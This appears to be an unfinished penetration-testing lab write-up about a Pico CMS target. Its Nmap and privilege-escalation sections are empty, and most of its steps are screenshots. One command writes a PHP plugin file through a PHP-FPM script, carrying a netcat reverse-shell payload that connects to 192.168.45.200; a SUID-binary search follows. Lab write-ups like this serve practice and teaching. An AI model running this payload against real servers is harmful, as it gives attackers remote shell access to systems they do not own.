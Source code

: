 #InProgress 

## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP

https://github.com/picocms/Pico/blob/master/plugins/DummyPlugin.php

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171831.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171757.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923172242.png?raw=true)

```
python fpm.py express.pg /var/www/html/planetexpress/plugins/PicoTest.php -c "<?php passthru('nc 192.168.45.200 80 -e /bin/bash');?>"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190339.png?raw=true)

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190627.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923191257.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193705.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193856.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

